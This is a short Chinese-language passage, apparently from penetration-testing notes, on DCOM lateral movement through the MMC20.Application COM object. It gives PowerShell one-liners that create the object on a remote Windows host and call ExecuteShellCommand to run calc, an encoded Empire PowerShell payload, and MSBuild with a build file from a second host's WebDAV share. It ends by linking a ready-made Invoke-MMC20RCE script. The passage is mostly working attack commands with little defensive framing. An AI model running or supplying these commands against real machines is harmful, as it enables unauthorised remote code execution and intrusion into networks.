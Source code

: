 	此 COM 对象 (MMC20.Application) 允许您编写 MMC 管理单元操作的组件。Document.ActiveView下有一个名为“ExecuteShellCommand”的方法。
	PS C:\> $com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","10.10.10.1"))
	PS C:\> $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\calc.exe",$null,$null,7)
	PS C:\> $com.Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe",$null,"-enc DFDFSFSFSFSFSFSFSDFSFSF < Empire encoded string > ","7")

	使用MSBuild武器化的例子
	PS C:\> [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","10.10.10.1")).Document.ActiveView.ExecuteShellCommand("c:\windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe",$null,"\\10.10.10.2\webdav\build.xml","7")
	调用-MMC20RCE：https ://raw.githubusercontent.com/n0tty/powershellery/master/Invoke-MMC20RCE.ps1